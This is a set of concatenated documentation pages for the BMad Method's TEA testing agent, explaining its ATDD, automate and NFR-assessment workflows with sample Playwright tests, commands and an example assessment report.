- Mix of levels (see [API Tests First, E2E Later](#api-tests-first-e2e-later) tip)

### Component Testing by Framework

TEA generates component tests using framework-appropriate tools:

| Your Framework | Component Testing Tool                       |
| -------------- | -------------------------------------------- |
| **Cypress**    | Cypress Component Testing (\*.cy.tsx)        |
| **Playwright** | Vitest + React Testing Library (\*.test.tsx) |

**Example response:**

```
Generate:
- API tests for profile CRUD operations
- E2E tests for the complete profile editing flow
- Component tests for ProfileForm validation (if using Cypress or Vitest)
- Focus on P0 and P1 scenarios
```

### 5. Review Generated Tests

TEA generates **failing tests** in appropriate directories:

#### API Tests (`tests/api/profile.spec.ts`):

**Vanilla Playwright:**

```typescript
import { test, expect } from '@playwright/test';

test.describe('Profile API', () => {
  test('should fetch user profile', async ({ request }) => {
    const response = await request.get('/api/profile');

    expect(response.status()).toBe(200);
    const profile = await response.json();
    expect(profile).toHaveProperty('name');
    expect(profile).toHaveProperty('email');
    expect(profile).toHaveProperty('avatarUrl');
  });

  test('should update user profile', async ({ request }) => {
    const response = await request.patch('/api/profile', {
      data: {
        name: 'Updated Name',
        email: 'updated@example.com',
      },
    });

    expect(response.status()).toBe(200);
    const updated = await response.json();
    expect(updated.name).toBe('Updated Name');
    expect(updated.email).toBe('updated@example.com');
  });

  test('should validate email format', async ({ request }) => {
    const response = await request.patch('/api/profile', {
      data: {
        email: 'invalid-email',
      },
    });

    expect(response.status()).toBe(400);
    const error = await response.json();
    expect(error.message).toContain('Invalid email format');
  });
});
```

**With Playwright Utils:**

```typescript
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { expect } from '@playwright/test';
import { z } from 'zod';

const ProfileSchema = z.object({
  name: z.string(),
  email: z.string().email(),
  avatarUrl: z.string().url(),
});

test.describe('Profile API', () => {
  test('should fetch user profile', async ({ apiRequest }) => {
    const { status, body } = await apiRequest({
      method: 'GET',
      path: '/api/profile',
    }).validateSchema(ProfileSchema); // Chained validation

    expect(status).toBe(200);
    // Schema already validated, type-safe access
    expect(body.name).toBeDefined();
    expect(body.email).toContain('@');
  });

  test('should update user profile', async ({ apiRequest }) => {
    const { status, body } = await apiRequest({
      method: 'PATCH',
      path: '/api/profile',
      body: {
        name: 'Updated Name',
        email: 'updated@example.com',
      },
    }).validateSchema(ProfileSchema); // Chained validation

    expect(status).toBe(200);
    expect(body.name).toBe('Updated Name');
    expect(body.email).toBe('updated@example.com');
  });

  test('should validate email format', async ({ apiRequest }) => {
    const { status, body } = await apiRequest({
      method: 'PATCH',
      path: '/api/profile',
      body: { email: 'invalid-email' },
    });

    expect(status).toBe(400);
    expect(body.message).toContain('Invalid email format');
  });
});
```

**Key Benefits:**

- Returns `{ status, body }` (cleaner than `response.status()` + `await response.json()`)
- Automatic schema validation with Zod
- Type-safe response bodies
- Automatic retry for 5xx errors
- Less boilerplate

#### E2E Tests (`tests/e2e/profile.spec.ts`):

```typescript
import { test, expect } from '@playwright/test';

test('should edit and save profile', async ({ page }) => {
  // Login first
  await page.goto('/login');
  await page.getByLabel('Email').fill('test@example.com');
  await page.getByLabel('Password').fill('password123');
  await page.getByRole('button', { name: 'Sign in' }).click();

  // Navigate to profile
  await page.goto('/profile');

  // Edit profile
  await page.getByRole('button', { name: 'Edit Profile' }).click();
  await page.getByLabel('Name').fill('Updated Name');
  await page.getByRole('button', { name: 'Save' }).click();

  // Verify success
  await expect(page.getByText('Profile updated')).toBeVisible();
});
```

TEA generates additional E2E tests for display, validation errors, etc. based on acceptance criteria.

#### Implementation Checklist

TEA also provides an implementation checklist:

```markdown
## Implementation Checklist

### Backend

- [ ] Create `GET /api/profile` endpoint
- [ ] Create `PATCH /api/profile` endpoint
- [ ] Add email validation middleware
- [ ] Add profile picture upload handling
- [ ] Write API unit tests

### Frontend

- [ ] Create ProfilePage component
- [ ] Implement profile form with validation
- [ ] Add file upload for avatar
- [ ] Handle API errors gracefully
- [ ] Add loading states

### Tests

- [x] API tests generated (failing)
- [x] E2E tests generated (failing)
- [ ] Run tests after implementation (should pass)
```

### 6. Verify Tests Fail

This is the TDD red phase - tests MUST fail before implementation.

**For Playwright:**

```bash
npx playwright test
```

**For Cypress:**

```bash
npx cypress run
```

Expected output:

```
Running 6 tests using 1 worker

  ✗ tests/api/profile.spec.ts:3:3 › should fetch user profile
    Error: expect(received).toBe(expected)
    Expected: 200
    Received: 404

  ✗ tests/e2e/profile.spec.ts:10:3 › should display current profile information
    Error: page.goto: net::ERR_ABORTED
```

**All tests should fail!** This confirms:

- Feature doesn't exist yet
- Tests will guide implementation
- You have clear success criteria

### 7. Implement the Feature

Now implement the feature following the test guidance:

1. Start with API tests (backend first)
2. Make API tests pass
3. Move to E2E tests (frontend)
4. Make E2E tests pass
5. Refactor with confidence (tests protect you)

### 8. Verify Tests Pass

After implementation, run your test suite.

**For Playwright:**

```bash
npx playwright test
```

**For Cypress:**

```bash
npx cypress run
```

Expected output:

```
Running 6 tests using 1 worker

  ✓ tests/api/profile.spec.ts:3:3 › should fetch user profile (850ms)
  ✓ tests/api/profile.spec.ts:15:3 › should update user profile (1.2s)
  ✓ tests/api/profile.spec.ts:30:3 › should validate email format (650ms)
  ✓ tests/e2e/profile.spec.ts:10:3 › should display current profile (2.1s)
  ✓ tests/e2e/profile.spec.ts:18:3 › should edit and save profile (3.2s)
  ✓ tests/e2e/profile.spec.ts:35:3 › should show validation error (1.8s)

  6 passed (9.8s)
```

**Green!** You've completed the TDD cycle: red → green → refactor.

## What You Get

### Failing Tests

- API tests for backend endpoints
- E2E tests for user workflows
- Component tests (if requested)
- All tests fail initially (red phase)

### Implementation Guidance

- Clear checklist of what to build
- Acceptance criteria translated to assertions
- Edge cases and error scenarios identified

### TDD Workflow Support

- Tests guide implementation
- Confidence to refactor
- Living documentation of features

## Tips

### Start with Test Design

Run `test-design` before `atdd` for better results:

```
test-design   # Risk assessment and priorities
atdd          # Generate tests based on design
```

### Browser Automation (Optional)

If browser automation is configured (`tea_browser_automation: "auto"` or `"cli"` or `"mcp"`), TEA can verify selectors against live browsers during `atdd`.

- **CLI mode:** Takes snapshots to verify element names and roles before generating selectors
- **MCP mode:** Full browser automation for complex UI interactions
- **Auto mode:** Uses CLI for simple verification, MCP for complex flows

**Note:** ATDD is for features that don't exist yet, so browser verification only applies if you have skeleton/mockup UI already implemented. For typical ATDD (no UI yet), TEA infers selectors from best practices.

See [Configure Browser Automation](/brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md) for setup.

### Focus on P0/P1 Scenarios

Don't generate tests for everything at once:

```
Generate tests for:
- P0: Critical path (happy path)
- P1: High value (validation, errors)

Skip P2/P3 for now - add later with automate
```

### API Tests First, E2E Later

Recommended order:

1. Generate API tests with `atdd`
2. Implement backend (make API tests pass)
3. Generate E2E tests with `atdd` (or `automate`)
4. Implement frontend (make E2E tests pass)

This "outside-in" approach is faster and more reliable.

### Keep Tests Deterministic

TEA generates deterministic tests by default:

- No hard waits (`waitForTimeout`)
- Network-first patterns (wait for responses)
- Explicit assertions (no conditionals)

Don't modify these patterns - they prevent flakiness!

## Related Guides

- [How to Run Test Design](/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md) - Plan before generating
- [How to Run Automate](/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md) - Tests for existing features
- [How to Set Up Test Framework](/brain/knowledge/docs_legacy/how-to/workflows/setup-test-framework.md) - Initial setup

## Understanding the Concepts

- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md) - **Why TEA generates quality tests** (foundational)
- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - Why P0 vs P3 matters
- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - What makes tests good
- [Network-First Patterns](/brain/knowledge/docs_legacy/explanation/network-first-patterns.md) - Avoiding flakiness

## Reference

- [Command: \*atdd](../bmad_repo/commands.md#atdd) - Full command reference
- [TEA Configuration](configuration.md) - MCP and Playwright Utils options

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/how-to/workflows/run-automate.md`
```markdown
---
title: 'How to Run Automate with TEA'
description: Expand test automation coverage after implementation using TEA's automate workflow
---

# How to Run Automate with TEA

Use TEA's `automate` workflow to generate comprehensive tests for existing features. Unlike `*atdd`, these tests pass immediately because the feature already exists.

## When to Use This

- Feature already exists and works
- Want to add test coverage to existing code
- Need tests that pass immediately
- Expanding existing test suite
- Adding tests to legacy code

**Don't use this if:**

- Feature doesn't exist yet (use `atdd` instead)
- Want failing tests to guide development (use `atdd` for TDD)

## Prerequisites

- BMad Method installed
- TEA agent available
- Test framework setup complete (run `framework` if needed)
- Feature implemented and working

**Note:** This guide uses Playwright examples. If using Cypress, commands and syntax will differ.

## Steps

### 1. Load TEA Agent

Start a fresh chat and load TEA:

```
tea
```

### 2. Run the Automate Workflow

```
automate
```

### 3. Provide Context

TEA will ask for context about what you're testing.

#### Option A: BMad-Integrated Mode (Recommended)

If you have BMad artifacts (stories, test designs, PRDs):

**What are you testing?**

```
I'm testing the user profile feature we just implemented.
Story: story-profile-management.md
Test Design: test-design-epic-1.md
```

**Reference documents:**

- Story file with acceptance criteria
- Test design document (if available)
- PRD sections relevant to this feature
- Tech spec (if available)

**Existing tests:**

```
We have basic tests in tests/e2e/profile-view.spec.ts
Avoid duplicating that coverage
```

TEA will analyze your artifacts and generate comprehensive tests that:

- Cover acceptance criteria from the story
- Follow priorities from test design (P0 → P1 → P2)
- Avoid duplicating existing tests
- Include edge cases and error scenarios

#### Option B: Standalone Mode

If you're using TEA Solo or don't have BMad artifacts:

**What are you testing?**

```
TodoMVC React application at https://todomvc.com/examples/react/dist/
Features: Create todos, mark as complete, filter by status, delete todos
```

**Specific scenarios to cover:**

```
- Creating todos (happy path)
- Marking todos as complete/incomplete
- Filtering (All, Active, Completed)
- Deleting todos
- Edge cases (empty input, long text)
```

TEA will analyze the application and generate tests based on your description.

### 4. Specify Test Levels

TEA will ask which test levels to generate:

**Options:**

- **E2E tests** - Full browser-based user workflows
- **API tests** - Backend endpoint testing (faster, more reliable)
- **Component tests** - UI component testing in isolation (framework-dependent)
- **Mix** - Combination of levels (recommended)

**Example response:**

```
Generate:
- API tests for all CRUD operations
- E2E tests for critical user workflows (P0)
- Focus on P0 and P1 scenarios
- Skip P3 (low priority edge cases)
```

### 5. Review Generated Tests

TEA generates a comprehensive test suite with multiple test levels.

#### API Tests (`tests/api/profile.spec.ts`):

**Vanilla Playwright:**

```typescript
import { test, expect } from '@playwright/test';

test.describe('Profile API', () => {
  let authToken: string;

  test.beforeAll(async ({ request }) => {
    // Manual auth token fetch
    const response = await request.post('/api/auth/login', {
      data: { email: 'test@example.com', password: 'password123' },
    });
    const { token } = await response.json();
    authToken = token;
  });

  test('should fetch user profile', async ({ request }) => {
    const response = await request.get('/api/profile', {
      headers: { Authorization: `Bearer ${authToken}` },
    });

    expect(response.ok()).toBeTruthy();
    const profile = await response.json();
    expect(profile).toMatchObject({
      id: expect.any(String),
      name: expect.any(String),
      email: expect.any(String),
    });
  });

  test('should update profile successfully', async ({ request }) => {
    const response = await request.patch('/api/profile', {
      headers: { Authorization: `Bearer ${authToken}` },
      data: {
        name: 'Updated Name',
        bio: 'Test bio',
      },
    });

    expect(response.ok()).toBeTruthy();
    const updated = await response.json();
    expect(updated.name).toBe('Updated Name');
    expect(updated.bio).toBe('Test bio');
  });

  test('should validate email format', async ({ request }) => {
    const response = await request.patch('/api/profile', {
      headers: { Authorization: `Bearer ${authToken}` },
      data: { email: 'invalid-email' },
    });

    expect(response.status()).toBe(400);
    const error = await response.json();
    expect(error.message).toContain('Invalid email');
  });

  test('should require authentication', async ({ request }) => {
    const response = await request.get('/api/profile');
    expect(response.status()).toBe(401);
  });
});
```

**With Playwright Utils:**

```typescript
import { test as base, expect } from '@playwright/test';
import { test as apiRequestFixture } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { createAuthFixtures } from '@seontechnologies/playwright-utils/auth-session';
import { mergeTests } from '@playwright/test';
import { z } from 'zod';

const ProfileSchema = z.object({
  id: z.string(),
  name: z.string(),
  email: z.string().email(),
});

// Merge API and auth fixtures
const authFixtureTest = base.extend(createAuthFixtures());
export const testWithAuth = mergeTests(apiRequestFixture, authFixtureTest);

testWithAuth.describe('Profile API', () => {
  testWithAuth('should fetch user profile', async ({ apiRequest, authToken }) => {
    const { status, body } = await apiRequest({
      method: 'GET',
      path: '/api/profile',
      headers: { Authorization: `Bearer ${authToken}` },
    }).validateSchema(ProfileSchema); // Chained validation

    expect(status).toBe(200);
    // Schema already validated, type-safe access
    expect(body.name).toBeDefined();
  });

  testWithAuth('should update profile successfully', async ({ apiRequest, authToken }) => {
    const { status, body } = await apiRequest({
      method: 'PATCH',
      path: '/api/profile',
      body: { name: 'Updated Name', bio: 'Test bio' },
      headers: { Authorization: `Bearer ${authToken}` },
    }).validateSchema(ProfileSchema); // Chained validation

    expect(status).toBe(200);
    expect(body.name).toBe('Updated Name');
  });

  testWithAuth('should validate email format', async ({ apiRequest, authToken }) => {
    const { status, body } = await apiRequest({
      method: 'PATCH',
      path: '/api/profile',
      body: { email: 'invalid-email' },
      headers: { Authorization: `Bearer ${authToken}` },
    });

    expect(status).toBe(400);
    expect(body.message).toContain('Invalid email');
  });
});
```

**Key Differences:**

- `authToken` fixture (persisted, reused across tests)
- `apiRequest` returns `{ status, body }` (cleaner)
- Schema validation with Zod (type-safe)
- Automatic retry for 5xx errors
- Less boilerplate (no manual `await response.json()` everywhere)

#### E2E Tests (`tests/e2e/profile.spec.ts`):

```typescript
import { test, expect } from '@playwright/test';

test('should edit profile', async ({ page }) => {
  // Login
  await page.goto('/login');
  await page.getByLabel('Email').fill('test@example.com');
  await page.getByLabel('Password').fill('password123');
  await page.getByRole('button', { name: 'Sign in' }).click();

  // Edit profile
  await page.goto('/profile');
  await page.getByRole('button', { name: 'Edit Profile' }).click();
  await page.getByLabel('Name').fill('New Name');
  await page.getByRole('button', { name: 'Save' }).click();

  // Verify success
  await expect(page.getByText('Profile updated')).toBeVisible();
});
```

TEA generates additional tests for validation, edge cases, etc. based on priorities.

#### Fixtures (`tests/support/fixtures/profile.ts`):

**Vanilla Playwright:**

```typescript
import { test as base, Page } from '@playwright/test';

type ProfileFixtures = {
  authenticatedPage: Page;
  testProfile: {
    name: string;
    email: string;
    bio: string;
  };
};

export const test = base.extend<ProfileFixtures>({
  authenticatedPage: async ({ page }, use) => {
    // Manual login flow
    await page.goto('/login');
    await page.getByLabel('Email').fill('test@example.com');
    await page.getByLabel('Password').fill('password123');
    await page.getByRole('button', { name: 'Sign in' }).click();
    await page.waitForURL(/\/dashboard/);

    await use(page);
  },

  testProfile: async ({ request }, use) => {
    // Static test data
    const profile = {
      name: 'Test User',
      email: 'test@example.com',
      bio: 'Test bio',
    };

    await use(profile);
  },
});
```

**With Playwright Utils:**

```typescript
import { test as base } from '@playwright/test';
import { createAuthFixtures } from '@seontechnologies/playwright-utils/auth-session';
import { mergeTests } from '@playwright/test';
import { faker } from '@faker-js/faker';

type ProfileFixtures = {
  testProfile: {
    name: string;
    email: string;
    bio: string;
  };
};

// Merge auth fixtures with custom fixtures
const authTest = base.extend(createAuthFixtures());
const profileTest = base.extend<ProfileFixtures>({
  testProfile: async ({}, use) => {
    // Dynamic test data with faker
    const profile = {
      name: faker.person.fullName(),
      email: faker.internet.email(),
      bio: faker.person.bio(),
    };

    await use(profile);
  },
});

export const test = mergeTests(authTest, profileTest);
export { expect } from '@playwright/test';
```

**Usage:**

```typescript
import { test, expect } from '../support/fixtures/profile';

test('should update profile', async ({ page, authToken, testProfile }) => {
  // authToken from auth-session (automatic, persisted)
  // testProfile from custom fixture (dynamic data)

  await page.goto('/profile');
  // Test with dynamic, unique data
});
```

**Key Benefits:**

- `authToken` fixture (persisted token, no manual login)
- Dynamic test data with faker (no conflicts)
- Fixture composition with mergeTests
- Reusable across test files

### 6. Review Additional Artifacts

TEA also generates:

#### Updated README (`tests/README.md`):

```markdown
# Test Suite

## Running Tests

### All Tests

npm test

### Specific Levels

npm run test:api # API tests only
npm run test:e2e # E2E tests only
npm run test:smoke # Smoke tests (@smoke tag)

### Single File

npx playwright test tests/api/profile.spec.ts

## Test Structure

tests/
├── api/ # API tests (fast, reliable)
├── e2e/ # E2E tests (full workflows)
├── fixtures/ # Shared test utilities
└── README.md

## Writing Tests

Follow the patterns in existing tests:

- Use fixtures for authentication
- Network-first patterns (no hard waits)
- Explicit assertions
- Self-cleaning tests
```

#### Definition of Done Summary:

```markdown
## Test Quality Checklist

✅ All tests pass on first run
✅ No hard waits (waitForTimeout)
✅ No conditionals for flow control
✅ Assertions are explicit
✅ Tests clean up after themselves
✅ Tests can run in parallel
✅ Execution time < 1.5 minutes per test
✅ Test files < 300 lines
```

### 7. Run the Tests

All tests should pass immediately since the feature exists:

**For Playwright:**

```bash
npx playwright test
```

**For Cypress:**

```bash
npx cypress run
```

Expected output:

```
Running 15 tests using 4 workers

  ✓ tests/api/profile.spec.ts (4 tests) - 2.1s
  ✓ tests/e2e/profile-workflow.spec.ts (2 tests) - 5.3s

  15 passed (7.4s)
```

**All green!** Tests pass because feature already exists.

### 8. Review Test Coverage

Check which scenarios are covered:

```bash
# View test report
npx playwright show-report

# Check coverage (if configured)
npm run test:coverage
```

Compare against:

- Acceptance criteria from story
- Test priorities from test design
- Edge cases and error scenarios

## What You Get

### Comprehensive Test Suite

- **API tests** - Fast, reliable backend testing
- **E2E tests** - Critical user workflows
- **Component tests** - UI component testing (if requested)
- **Fixtures** - Shared utilities and setup

### Component Testing by Framework

TEA supports component testing using framework-appropriate tools:

| Your Framework | Component Testing Tool         | Tests Location                            |
| -------------- | ------------------------------ | ----------------------------------------- |
| **Cypress**    | Cypress Component Testing      | `tests/component/`                        |
| **Playwright** | Vitest + React Testing Library | `tests/component/` or `src/**/*.test.tsx` |

**Note:** Component tests use separate tooling from E2E tests:

- Cypress users: TEA generates Cypress Component Tests
- Playwright users: TEA generates Vitest + React Testing Library tests

### Quality Features

- **Network-first patterns** - Wait for actual responses, not timeouts
- **Deterministic tests** - No flakiness, no conditionals
- **Self-cleaning** - Tests don't leave test data behind
- **Parallel-safe** - Can run all tests concurrently

### Documentation

- **Updated README** - How to run tests
- **Test structure explanation** - Where tests live
- **Definition of Done** - Quality standards

## Tips

### Start with Test Design

Run `test-design` before `automate` for better results:

```
test-design   # Risk assessment, priorities
automate      # Generate tests based on priorities
```

TEA will focus on P0/P1 scenarios and skip low-value tests.

### Prioritize Test Levels

Not everything needs E2E tests:

**Good strategy:**

```
- P0 scenarios: API + E2E tests
- P1 scenarios: API tests only
- P2 scenarios: API tests (happy path)
- P3 scenarios: Skip or add later
```

**Why?**

- API tests are 10x faster than E2E
- API tests are more reliable (no browser flakiness)
- E2E tests reserved for critical user journeys

### Avoid Duplicate Coverage

Tell TEA about existing tests:

```
We already have tests in:
- tests/e2e/profile-view.spec.ts (viewing profile)
- tests/api/auth.spec.ts (authentication)

Don't duplicate that coverage
```

TEA will analyze existing tests and only generate new scenarios.

### Browser Automation (Optional)

If browser automation is configured (`tea_browser_automation: "auto"` or `"cli"` or `"mcp"`), TEA can use browser tools during `automate` for:

- **Healing mode:** Fix broken selectors using CLI snapshots or MCP DOM analysis
- **Recording mode:** Verify selectors with CLI snapshots or MCP browser, capture network requests
- **Evidence capture:** CLI traces and screenshots for test validation

No prompts — TEA uses browser tools automatically when available and appropriate.

See [Configure Browser Automation](/brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md) for setup.

### Generate Tests Incrementally

Don't generate all tests at once:

**Iteration 1:**

```
Generate P0 tests only (critical path)
Run: automate
```

**Iteration 2:**

```
Generate P1 tests (high value scenarios)
Run: automate
Tell TEA to avoid P0 coverage
```

**Iteration 3:**

```
Generate P2 tests (if time permits)
Run: automate
```

This iterative approach:

- Provides fast feedback
- Allows validation before proceeding
- Keeps test generation focused

## Common Issues

### Tests Pass But Coverage Is Incomplete

**Problem:** Tests pass but don't cover all scenarios.

**Cause:** TEA wasn't given complete context.

**Solution:** Provide more details:

```
Generate tests for:
- All acceptance criteria in story-profile.md
- Error scenarios (validation, authorization)
- Edge cases (empty fields, long inputs)
```

### Too Many Tests Generated

**Problem:** TEA generated 50 tests for a simple feature.

**Cause:** Didn't specify priorities or scope.

**Solution:** Be specific:

```
Generate ONLY:
- P0 and P1 scenarios
- API tests for all scenarios
- E2E tests only for critical workflows
- Skip P2/P3 for now
```

### Tests Duplicate Existing Coverage

**Problem:** New tests cover the same scenarios as existing tests.

**Cause:** Didn't tell TEA about existing tests.

**Solution:** Specify existing coverage:

```
We already have these tests:
- tests/api/profile.spec.ts (GET /api/profile)
- tests/e2e/profile-view.spec.ts (viewing profile)

Generate tests for scenarios NOT covered by those files
```

### Browser Automation for Better Selectors

If browser automation is configured (`tea_browser_automation: "auto"`, `"cli"`, or `"mcp"`), TEA verifies selectors against live browser using CLI snapshots or MCP. Otherwise, TEA generates accessible selectors (`getByRole`, `getByLabel`) by default.

Setup: Set `tea_browser_automation: "auto"` in config + install CLI and/or configure MCP servers. See [Configure Browser Automation](/brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md).

## Related Guides

- [How to Run Test Design](/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md) - Plan before generating
- [How to Run ATDD](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md) - Failing tests before implementation
- [How to Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md) - Audit generated quality

## Understanding the Concepts

- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md) - **Why TEA generates quality tests** (foundational)
- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - Why prioritize P0 over P3
- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - What makes tests good
- [Fixture Architecture](/brain/knowledge/docs_legacy/explanation/fixture-architecture.md) - Reusable test patterns

## Reference

- [Command: \*automate](../bmad_repo/commands.md#automate) - Full command reference
- [TEA Configuration](configuration.md) - MCP and Playwright Utils options

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/how-to/workflows/run-nfr-assess.md`
```markdown
---
title: 'How to Run NFR Assessment with TEA'
description: Validate non-functional requirements for security, performance, reliability, and maintainability using TEA
---

# How to Run NFR Assessment with TEA

Use TEA's `nfr-assess` workflow to validate non-functional requirements (NFRs) with evidence-based assessment across security, performance, reliability, and maintainability.

## When to Use This

- Enterprise projects with compliance requirements
- Projects with strict NFR thresholds
- Before production release
- When NFRs are critical to project success
- Security or performance is mission-critical

**Best for:**

- Enterprise track projects
- Compliance-heavy industries (finance, healthcare, government)
- High-traffic applications
- Security-critical systems

## Prerequisites

- BMad Method installed
- TEA agent available
- NFRs defined in PRD or requirements doc
- Evidence preferred but not required (test results, security scans, performance metrics)

**Note:** You can run NFR assessment without complete evidence. TEA will mark categories as CONCERNS where evidence is missing and document what's needed.

## Steps

### 1. Run the NFR Assessment Workflow

Start a fresh chat and run:

```
nfr-assess
```

This loads TEA and starts the NFR assessment workflow.

### 2. Specify NFR Categories

TEA will ask which NFR categories to assess.

**Available Categories:**

| Category            | Focus Areas                                                                                    |
| ------------------- | ---------------------------------------------------------------------------------------------- |
| **Security**        | Authentication, authorization, encryption, vulnerabilities, security headers, input validation |
| **Performance**     | Response time, throughput, resource usage, database queries, frontend load time                |
| **Reliability**     | Error handling, recovery mechanisms, availability, failover, data backup                       |
| **Maintainability** | Code quality, test coverage, technical debt, documentation, dependency health                  |

**Example Response:**

```
Assess:
- Security (critical for user data)
- Performance (API must be fast)
- Reliability (99.9% uptime requirement)

Skip maintainability for now
```

### 3. Provide NFR Thresholds

TEA will ask for specific thresholds for each category.

**Critical Principle: Never guess thresholds.**

If you don't know the exact requirement, tell TEA to mark as CONCERNS and request clarification from stakeholders.

#### Security Thresholds

**Example:**

```
Requirements:
- All endpoints require authentication: YES
- Data encrypted at rest: YES (PostgreSQL TDE)
- Zero critical vulnerabilities: YES (npm audit)
- Input validation on all endpoints: YES (Zod schemas)
- Security headers configured: YES (helmet.js)
```

#### Performance Thresholds

**Example:**

```
Requirements:
- API response time P99: < 200ms
- API response time P95: < 150ms
- Throughput: > 1000 requests/second
- Frontend initial load: < 2 seconds
- Database query time P99: < 50ms
```

#### Reliability Thresholds

**Example:**

```
Requirements:
- Error handling: All endpoints return structured errors
- Availability: 99.9% uptime
- Recovery time: < 5 minutes (RTO)
- Data backup: Daily automated backups
- Failover: Automatic with < 30s downtime
```

#### Maintainability Thresholds

**Example:**

```
Requirements:
- Test coverage: > 80%
- Code quality: SonarQube grade A
- Documentation: All APIs documented
- Dependency age: < 6 months outdated
- Technical debt: < 10% of codebase
```

### 4. Provide Evidence

TEA will ask where to find evidence for each requirement.

**Evidence Sources:**

| Category        | Evidence Type         | Location                           |
| --------------- | --------------------- | ---------------------------------- |
| Security        | Security scan reports | `/reports/security-scan.pdf`       |
| Security        | Vulnerability scan    | `npm audit`, `snyk test` results   |
| Security        | Auth test results     | Test reports showing auth coverage |
| Performance     | Load test results     | `/reports/k6-load-test.json`       |
| Performance     | APM data              | Datadog, New Relic dashboards      |
| Performance     | Lighthouse scores     | `/reports/lighthouse.json`         |
| Reliability     | Error rate metrics    | Production monitoring dashboards   |
| Reliability     | Uptime data           | StatusPage, PagerDuty logs         |
| Maintainability | Coverage reports      | `/reports/coverage/index.html`     |
| Maintainability | Code quality          | SonarQube dashboard                |

**Example Response:**

```
Evidence:
- Security: npm audit results (clean), auth tests 15/15 passing
- Performance: k6 load test at /reports/k6-results.json
- Reliability: Error rate 0.01% in staging (logs in Datadog)

Don't have:
- Uptime data (new system, no baseline)
- Mark as CONCERNS and request monitoring setup
```

### 5. Review NFR Assessment Report

TEA generates a comprehensive assessment report.

#### Assessment Report (`nfr-assessment.md`):

````markdown
# Non-Functional Requirements Assessment

**Date:** 2026-01-13
**Epic:** User Profile Management
**Release:** v1.2.0
**Overall Decision:** CONCERNS ⚠️

## Executive Summary

| Category        | Status      | Critical Issues |
| --------------- | ----------- | --------------- |
| Security        | PASS ✅     | 0               |
| Performance     | CONCERNS ⚠️ | 2               |
| Reliability     | PASS ✅     | 0               |
| Maintainability | PASS ✅     | 0               |

**Decision Rationale:**
Performance metrics below target (P99 latency, throughput). Mitigation plan in place. Security and reliability meet all requirements.

---

## Security Assessment

**Status:** PASS ✅

### Requirements Met

| Requirement              | Target         | Actual              | Status |
| ------------------------ | -------------- | ------------------- | ------ |
| Authentication required  | All endpoints  | 100% enforced       | ✅     |
| Data encryption at rest  | PostgreSQL TDE | Enabled             | ✅     |
| Critical vulnerabilities | 0              | 0                   | ✅     |
| Input validation         | All endpoints  | Zod schemas on 100% | ✅     |
| Security headers         | Configured     | helmet.js enabled   | ✅     |

### Evidence

**Security Scan:**

```bash
$ npm audit
found 0 vulnerabilities
```
````

**Authentication Tests:**

- 15/15 auth tests passing
- Tested unauthorized access (401 responses)
- Token validation working

**Penetration Testing:**

- Report: `/reports/pentest-2026-01.pdf`
- Findings: 0 critical, 2 low (addressed)

**Conclusion:** All security requirements met. No blockers.

---

## Performance Assessment

**Status:** CONCERNS ⚠️

### Requirements Status

| Metric           | Target     | Actual  | Status     |
| ---------------- | ---------- | ------- | ---------- |
| API response P99 | < 200ms    | 350ms   | ❌ Exceeds |
| API response P95 | < 150ms    | 180ms   | ⚠️ Exceeds |
| Throughput       | > 1000 rps | 850 rps | ⚠️ Below   |
| Frontend load    | < 2s       | 1.8s    | ✅ Met     |
| DB query P99     | < 50ms     | 85ms    | ❌ Exceeds |

### Issues Identified

#### Issue 1: P99 Latency Exceeds Target

**Measured:** 350ms P99 (target: <200ms)
**Root Cause:** Database queries not optimized

- Missing indexes on profile queries
- N+1 query problem in profile endpoint

**Impact:** User experience degraded for 1% of requests

**Mitigation Plan:**

- Add composite index on `(user_id, profile_id)` - backend team, 2 days
- Refactor profile endpoint to use joins instead of multiple queries - backend team, 3 days
- Re-run load tests after optimization - QA team, 1 day

**Owner:** Backend team lead
**Deadline:** Before release (January 20, 2026)

#### Issue 2: Throughput Below Target

**Measured:** 850 rps (target: >1000 rps)
**Root Cause:** Connection pool size too small

- PostgreSQL max_connections = 100 (too low)
- No connection pooling in application

**Impact:** System cannot handle expected traffic

**Mitigation Plan:**

- Increase PostgreSQL max_connections to 500 - DevOps, 1 day
- Implement connection pooling with pg-pool - backend team, 2 days
- Re-run load tests - QA team, 1 day

**Owner:** DevOps + Backend team
**Deadline:** Before release (January 20, 2026)

### Evidence

**Load Testing:**

```
Tool: k6
Duration: 10 minutes
Virtual Users: 500 concurrent
Report: /reports/k6-load-test.json
```

**Results:**

```
scenarios: (100.00%) 1 scenario, 500 max VUs, 10m30s max duration
     ✓ http_req_duration..............: avg=250ms min=45ms med=180ms max=2.1s p(90)=280ms p(95)=350ms
     http_reqs......................: 85000 (850/s)
     http_req_failed................: 0.1%
```

**APM Data:**

- Tool: Datadog
- Dashboard: <https://app.datadoghq.com/dashboard/abc123>

**Conclusion:** Performance issues identified with mitigation plan. Re-assess after optimization.

---

## Reliability Assessment

**Status:** PASS ✅

### Requirements Met

| Requirement    | Target            | Actual           | Status |
| -------------- | ----------------- | ---------------- | ------ |
| Error handling | Structured errors | 100% endpoints   | ✅     |
| Availability   | 99.9% uptime      | 99.95% (staging) | ✅     |
| Recovery time  | < 5 min (RTO)     | 3 min (tested)   | ✅     |
| Data backup    | Daily             | Automated daily  | ✅     |
| Failover       | < 30s downtime    | 15s (tested)     | ✅     |

### Evidence

**Error Handling Tests:**

